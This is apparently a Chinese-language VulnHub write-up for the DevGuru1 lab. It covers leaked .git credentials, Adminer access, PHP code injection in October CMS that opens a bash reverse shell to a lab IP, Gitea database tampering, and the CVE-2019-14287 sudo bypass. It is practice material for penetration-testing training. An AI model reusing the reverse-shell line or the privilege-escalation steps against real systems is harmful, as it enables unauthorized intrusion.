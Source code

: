 +++
ShowToc = true
TocOpen = true
title = '0x075 DevGuru1'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



# 端口扫描

![](/vulnhub_img/WEBRESOURCEa6bd581c7fa48e8387927f35ab208b15image.png)

![](/vulnhub_img/WEBRESOURCEc1ec935487287800c122de86ac7c5ca1image.png)

![](/vulnhub_img/WEBRESOURCEab0eb3cd79e56fd6201ff24ccc811738image.png)

# 渗透测试

发现.git目录，通过githack下载下来，然后发现了数据库账号密码：

![](/vulnhub_img/WEBRESOURCE8dd235d87d2355774597af94e8fb30efimage.png)

'database'   => 'octoberdb',

'username'   => 'october',

'password'   => 'SQ66EBYx4GT3byXH',

![](/vulnhub_img/WEBRESOURCEbf21fb3ee14daec200095b3a301244b8image.png)

同时gobuster发现：

adminer页数据库管理工具

![](/vulnhub_img/WEBRESOURCE3ced553e1389cd923303f402a70e2915image.png)

登录成功：

![](/vulnhub_img/WEBRESOURCE97a08d1024d194c8ab57d630ba5799b6image.png)

密码hash，但是很可惜，没查到：

![](/vulnhub_img/WEBRESOURCEe0771862accbd7f518a859a72f8575cdimage.png)

但是可以添加用户：

然后又是小技巧了，hash id 和hash-identifier认不出来，但是百度是有案例的，直接把前面一截拿到百度搜：

![](/vulnhub_img/WEBRESOURCE92ac5b683cd5ef0df12b828557a6c627image.png)

![](/vulnhub_img/WEBRESOURCEd13a3917207d11119925f9abac161e5bimage.png)

![](/vulnhub_img/WEBRESOURCE94324b682221c4a4caa0ddaf3cc979e5image.png)

研究了半天这里的漏洞利用，查了资料原来是这里就可以直接修改代码执行：

markup:

{{ this.page.PoisonVar }}

![](/vulnhub_img/WEBRESOURCEdc09ba803a04971615e53d09065fccecimage.png)

code:

function onStart()

{

$this->page["PoisonVar"] = exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.5.66/8888 0>&1'");

}

![](/vulnhub_img/WEBRESOURCE8977ba30df11367a2b749669714d7359image.png)

点

![](/vulnhub_img/WEBRESOURCEa76361b23e24377e0f540594b22e9401image.png)

# 提权

秒了再说：

![](/vulnhub_img/WEBRESOURCEed85c3d72e11a842fd81fdfb3eab3d46image.png)

看一下作者留下的提权路径：

![](/vulnhub_img/WEBRESOURCE9ad82454162eda220198d40c97696638image.png)

数据库：

; Database to use. Either "mysql", "postgres", "mssql" or "sqlite3".

DB_TYPE             = mysql

HOST                = 127.0.0.1:3306

NAME                = gitea

USER                = gitea

; Use PASSWD = your password for quoting if you use special characters in the password.

PASSWD              = UfFPTF8C8jjxVF2m

![](/vulnhub_img/WEBRESOURCEd4c4b971dc31e9290ecbfbce57f60b0cimage.png)

这里可以用mysql命令行，也可以用之前的adminer，当然图形化好一点：

![](/vulnhub_img/WEBRESOURCE1a7746e5adf642ed47b6f9a2ddfba372image.png)

修改密码为这个：

pbkdf2算法：

123456

4f6289d97c8e4bb7d06390ee09320a272ae31b07363dbee078dea49e4881cdda50f886b52ed5a89578a0e42cca143775d8cb

![](/vulnhub_img/WEBRESOURCE735b82cf09ae0d4270186b615b8d10b7image.png)

添加反弹shell:

![](/vulnhub_img/WEBRESOURCE9ebc7eb7325b601c6413cc7f46ba6e17image.png)

随便修改一个文件：

![](/vulnhub_img/WEBRESOURCE55b5bc413dbdc5d73faa1ddafc18cdfeimage.png)

就可以拿到

![](/vulnhub_img/WEBRESOURCE2d69b4d86045fa6b425400cf56ddd452image.png)

sudo 提权：

这里利用了CVE-2019-14287 sudo权限绕过漏洞，在允许使用所有用户，但是仅仅不允许使用root用户的时候可以尝试，加上

-u#-1

![](/vulnhub_img/WEBRESOURCEf6513c76974a24d98418cd526f314a57image.png)